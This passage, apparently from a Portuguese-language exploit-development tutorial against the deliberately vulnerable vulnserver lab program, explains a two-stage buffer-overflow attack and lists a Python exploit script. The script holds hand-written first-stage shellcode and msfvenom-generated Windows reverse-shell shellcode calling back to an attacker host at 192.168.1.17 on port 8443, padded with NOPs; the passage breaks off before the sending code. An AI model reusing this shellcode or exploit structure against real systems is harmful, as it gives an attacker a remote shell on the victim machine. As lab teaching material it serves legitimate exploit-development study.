 Nosso primeiro estágio já consumiu quase todo nosso pequeno buffer, como podemos enviar nosso próximo estágio?

Vamos usar lógica, o vulnserver é um servidor TCP, logo, ele aceita multiplas conexões, então podemos criar duas conexões distintas e enviar cada estágio em uma consexão.

Tudo que precisamos fazer agora é criar nosso reverse shell e enviá-lo logo após nosso primeiro estágio.

xplkstet.py:

```python
#!/usr/bin/python3

import socket
from time import sleep

# variaveis de conexao
ip = "192.168.1.30"
porta = 9999

# variaveis de payload
offset = 206

estagio1 = b"\x83\xec\x40\x31\xff\x31\xdb\x53\x80\xc7\x04\x53\x89\xe3\x83\xc3\x40\x53\x47\x57\xb8\x90\x2c\x25\x40\xc1\xe8\x08\xff\xd0\x85\xc0\x75\xe3"

# msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.17 lport=8443 exitfunc=thread -b '\x00' -v shellcode -f py

shellcode =  b""
shellcode += b"\xbf\x3c\xce\x60\x4f\xdb\xd3\xd9\x74\x24\xf4"
shellcode += b"\x58\x33\xc9\xb1\x52\x83\xc0\x04\x31\x78\x0e"
shellcode += b"\x03\x44\xc0\x82\xba\x48\x34\xc0\x45\xb0\xc5"
shellcode += b"\xa5\xcc\x55\xf4\xe5\xab\x1e\xa7\xd5\xb8\x72"
shellcode += b"\x44\x9d\xed\x66\xdf\xd3\x39\x89\x68\x59\x1c"
shellcode += b"\xa4\x69\xf2\x5c\xa7\xe9\x09\xb1\x07\xd3\xc1"
shellcode += b"\xc4\x46\x14\x3f\x24\x1a\xcd\x4b\x9b\x8a\x7a"
shellcode += b"\x01\x20\x21\x30\x87\x20\xd6\x81\xa6\x01\x49"
shellcode += b"\x99\xf0\x81\x68\x4e\x89\x8b\x72\x93\xb4\x42"
shellcode += b"\x09\x67\x42\x55\xdb\xb9\xab\xfa\x22\x76\x5e"
shellcode += b"\x02\x63\xb1\x81\x71\x9d\xc1\x3c\x82\x5a\xbb"
shellcode += b"\x9a\x07\x78\x1b\x68\xbf\xa4\x9d\xbd\x26\x2f"
shellcode += b"\x91\x0a\x2c\x77\xb6\x8d\xe1\x0c\xc2\x06\x04"
shellcode += b"\xc2\x42\x5c\x23\xc6\x0f\x06\x4a\x5f\xea\xe9"
shellcode += b"\x73\xbf\x55\x55\xd6\xb4\x78\x82\x6b\x97\x14"
shellcode += b"\x67\x46\x27\xe5\xef\xd1\x54\xd7\xb0\x49\xf2"
shellcode += b"\x5b\x38\x54\x05\x9b\x13\x20\x99\x62\x9c\x51"
shellcode += b"\xb0\xa0\xc8\x01\xaa\x01\x71\xca\x2a\xad\xa4"
shellcode += b"\x5d\x7a\x01\x17\x1e\x2a\xe1\xc7\xf6\x20\xee"
shellcode += b"\x38\xe6\x4b\x24\x51\x8d\xb6\xaf\x9e\xfa\xb9"
shellcode += b"\x3e\x77\xf9\xb9\x60\x7c\x74\x5f\x0a\x92\xd1"
shellcode += b"\xc8\xa3\x0b\x78\x82\x52\xd3\x56\xef\x55\x5f"
shellcode += b"\x55\x10\x1b\xa8\x10\x02\xcc\x58\x6f\x78\x5b"
shellcode += b"\x66\x45\x14\x07\xf5\x02\xe4\x4e\xe6\x9c\xb3"
shellcode += b"\x07\xd8\xd4\x51\xba\x43\x4f\x47\x47\x15\xa8"
shellcode += b"\xc3\x9c\xe6\x37\xca\x51\x52\x1c\xdc\xaf\x5b"
shellcode += b"\x18\x88\x7f\x0a\xf6\x66\xc6\xe4\xb8\xd0\x90"
shellcode += b"\x5b\x13\xb4\x65\x90\xa4\xc2\x69\xfd\x52\x2a"
shellcode += b"\xdb\xa8\x22\x55\xd4\x3c\xa3\x2e\x08\xdd\x4c"
shellcode += b"\xe5\x88\xfd\xae\x2f\xe5\x95\x76\xba\x44\xf8"
shellcode += b"\x88\x11\x8a\x05\x0b\x93\x73\xf2\x13\xd6\x76"
shellcode += b"\xbe\x93\x0b\x0b\xaf\x71\x2b\xb8\xd0\x53"

estagio2 = shellcode + b"\x90" * (1024 - len(shellcode)) # preenchendo o restante do buffer de 1024 bytes com NOPs
```